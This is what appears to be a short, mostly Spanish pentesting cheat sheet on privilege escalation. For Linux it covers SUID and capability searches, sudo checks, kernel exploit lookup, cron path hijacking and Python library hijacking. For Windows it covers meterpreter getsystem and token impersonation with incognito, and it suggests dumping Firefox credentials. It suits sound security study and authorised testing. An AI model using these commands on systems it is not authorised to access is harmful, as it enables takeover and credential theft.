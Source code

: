 # Linux Privilege Escalation

>Ultra useful webpage: https://gtfobins.github.io
## Encontrar archivos SUID

```sh
find / -perm -4000 2>/dev/null
```

## Encontrar permisos de sudoers en el usuario

```sh
sudo -l
sudo -u usuario comando 
```

## Kernel Version

```sh
uname -r
lsb_release -a
```

>Si la versión es antigua revisar si posee algún exploit:

```bash
searchsploit "Linux Kernel x.x.x"

msfconsole
search "Kernel x.x.x" platform:linux
```

## Cron Tasks

>Revisar los procesos:

```sh
ps -aux
```

>Si se realiza una tarea cron ver si el archivo es editable o si se puede tratar de realizar un path hijacking o python library hijacking en caso de que la tarea cron no emplee rutas absolutas.

## Python Library Hijacking

>Ver si se encuentra un ejecutable de python que permita hacer user pivoting o escalar a root, si la carpeta tiene permisos de escritura crear en este un archivo con el nombre de alguna librería empleada por el ejecutable y escribe código malicioso, esto se debe porque Python primero busca en el directorio del script y luego en el PATH.

## Capabilities

```bash
getcap -r / 2>/dev/null
```

## Bash history (Possible User Pivoting)

>Mirar el .bash_history (no se el nombre exacto)

## Sesiones de firefox

>Ver en el directorio personal del usuario si en las carpetas que comienzan en . hay alguna sesión de firefox que nos pueda hacer dumpear credenciales mediante herramientas externas.



# Windows Privilege Escalation

>Ultra useful webpage: https://lolbas-project.github.io/#
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation
## Meterpreter session

```meterpreter
getsystem
```

>Trata de buscar exploits de escalada de privilegios poniendo la sesión en background y emplealos:

```msfconsole
Ctrl+Z
search x
```
## Token Impersonation

>Ver los privilegios del usuario en el que te encuentras:

```sh
whoami /priv
```

>En una sesión de meterpreter:

```meterpreter
getprivs
load incognito
list_tokens -u
impersonate_token domain\\user
```

>También puede emplearse con el repositorio siguiente de GitHub https://github.com/FSecureLABS/incognito/blob/394545ffb844afcc18e798737cbd070ff3a4eb29/incognito.exe:

```powershell
.\incognito.exe list_tokens -u
.\incognito.exe execute -c "domain\user" C:\Windows\system32\cmd.exe
```
